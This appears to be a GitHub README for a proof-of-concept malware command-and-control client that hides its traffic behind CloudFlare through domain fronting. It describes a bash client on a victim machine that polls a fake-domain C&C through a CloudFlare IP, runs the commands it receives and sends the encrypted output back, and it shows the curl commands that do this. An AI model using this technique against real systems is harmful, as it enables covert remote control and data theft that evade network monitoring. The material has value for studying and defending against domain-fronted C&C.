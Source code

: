 # CloudFlare C&C POC
Before to start, let me say that I'm not a super expert on how to write a C&C client-server. This want to be a POC on how a Malware can hide behind a "fake" CloudFlare domain (see this post for more information: https://medium.com/@themiddleblue/cloudflare-domain-fronting-an-easy-way-to-reach-and-hide-a-malware-c-c-786255f0f437)

![](http://i.imgur.com/ZTsKokU.gif)

## How it work
The client, on the "Victim" PC, is a bash script that uses cURL to connect to CloudFlare and OpenSSL to encrypt all communications from and to CloudFlare/C&C. It simply make 2 HTTP request each *n* seconds: The first one, in order to discover a CloudFlare IP address, try to connect to a "real" CloudFlare website. The second one, make a fake request to CloudFlare to reach our C&C.

```bash
# get any usable CloudFlare IP address
CFIP=$(curl -v -I http://medium.com 2>&1 | egrep -o '\d+\.\d+\.\d+\.\d+' | head -1)

# get updates from my C&C
curl -H "Host: myfakedomain.com" "http://${CFIP}/?nocache=`date +%s`"
```

When the client receive an update, it decrypt the response_body and execute the command. Then it encrypt the command output and send it back to the C&C. The bash script uses OpenSSL to encrypt and decrypt.

![hiw](http://i.imgur.com/hYzqMWx.png)

## A dump of the client request
Following, a screenshot that shows how the client requests appear sniffing the http traffic on the victim PC.
![ws](http://i.imgur.com/ilVKfgV.png)

First, we have a CloudFlare IP `104.16.122.127` as a destination IP address:
```bash
$ whois 104.16.122.127
...
OrgName:        Cloudflare, Inc.
OrgId:          CLOUD14
Address:        101 Townsend Street
City:           San Francisco
StateProv:      CA
PostalCode:     94107
Country:        US
RegDate:        2010-07-09
Updated:        2017-02-17
Comment:        All Cloudflare abuse reporting can be done via https://www.cloudflare.com/abuse
Ref:            https://whois.arin.net/rest/org/CLOUD14
...
```

Then we see a POST request to `corriere.it` hostname (an italian daily newspaper), and in the request body we have the encrypted `ls -lart /tmp/` output.

## Info
What "Domain Fronting" is: https://en.wikipedia.org/wiki/Domain_fronting <br>
CloudFlare Domain Fronting: https://medium.com/@themiddleblue/cloudflare-domain-fronting-an-easy-way-to-reach-and-hide-a-malware-c-c-786255f0f437 <br>
theMiddle @twitter: https://twitter.com/Menin_TheMiddle <br>
